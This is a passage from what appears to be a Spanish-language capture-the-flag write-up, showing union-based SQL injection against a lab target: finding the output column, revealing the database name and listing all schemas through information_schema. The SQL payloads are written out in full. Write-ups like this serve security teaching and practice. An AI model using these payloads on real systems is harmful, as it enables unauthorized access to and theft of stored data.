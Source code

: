 Bien como empezamos con con la `SQLI`, lo primero es ver en que campo podemos mostrar la información que nosotros queramos y eso lo haremos usando la Query siguiente:  
```sql
union select 1,2,3,4,5,6
```

Además de usar un usuario que no exista en esta caso como solo existe el usuario con el identificador 1 usaremos el 2 

![Paste](./15.jpeg)

si queremos saber el nombre de la base de datos en cualquier columna que tu quieres en mi caso la numero dos pondremos la Query de 

```sql
union select 1,database(),3,4,5,6-- -
```  

y con esto sabremos que la Base de Datos que se esta ocupando es la de `darckhole_v2`

![Paste](./16.jpeg)

Listaremos todas las Base de datos que existen con esta Query 

```sql

union select 1,group_concat( schema_name),3,4,5,6 from information_schema.schemata-- -
```
